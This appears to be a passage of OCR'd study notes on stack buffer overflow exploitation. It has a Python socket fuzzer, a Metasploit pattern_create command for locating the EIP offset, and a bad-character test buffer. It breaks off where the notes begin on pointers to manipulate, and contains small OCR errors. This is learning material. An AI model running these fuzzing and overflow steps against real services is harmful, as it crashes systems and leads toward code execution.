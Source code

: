 ```python
        print "[+] Usage %s host + port " % sys.argv[0]
        sys.exit()

    print "Fuzzing with %s bytes" % len(string)
    s = so.socket(so.AF_INET, so.SOCK_STREAM)
    try:
        s.connect((server, port))
        print s.recv(1024)
        s.send( string+'\r\n')
        s.send('exit\r\n')
        print s.recv(1024)
    except:
        print "[!] connection refused, check debugger"
        sys(exit)
```

Need to know the offset from the start of the buffer to the EIP in order to rewrite it.

After finding a crashing buffer size, pass into pattern_create, it will highlight the EIP.
```
 > $ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```

BACHARS: Bad Characters!

To test for Bad Chars, want to test by adding the hex string into the payload and popping any missing elements from list.
```python
badchars = ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

buffer = "A"*1328 + "ABBA" + badchars
```

0x00 and 0x0A are always bad chars
Bad chars vary from application/architecture, so need to find potential bad chars to exclude from payload. ( build the payload without using the bachars)


Important Pointers to manipulate:
